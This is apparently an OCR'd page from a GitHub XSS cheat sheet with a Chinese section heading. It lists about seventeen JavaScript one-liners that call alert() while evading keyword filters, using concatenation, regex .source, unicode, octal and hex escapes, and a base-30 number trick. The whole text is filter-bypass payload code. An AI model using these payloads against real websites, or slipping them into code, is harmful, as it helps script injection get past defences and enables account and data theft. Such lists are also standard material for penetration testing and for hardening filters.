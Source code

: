 ```js
(alert)(1)
```
```js
globalThis[`al`+/ert/.source]`1`
```
```js
this[`al`+/ert/.source]`1`
```
```js
[alert][0].call(this,1)
```
```js
window['a'+'l'+'e'+'r'+'t']()
```
```js
window['a'+'l'+'e'+'r'+'t'].call(this,1)
```
```js
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
```
```js
(1,2,3,4,5,6,7,8,alert)(1)
```
```js
x=alert,x(1)
```
```js
[1].find(alert)
```
```js
top["al"+"ert"](1)
```
```js
top[/al/.source+/ert/.source](1)
```
```js
al\u0065rt(1)
```
```js
al\u0065rt`1`
```
```js
top['al\145rt'](1)
```
```js
top['al\x65rt'](1)
```
```js
top[8680439..toString(30)](1)
```

----------------

## 一般技巧
### 構建 string
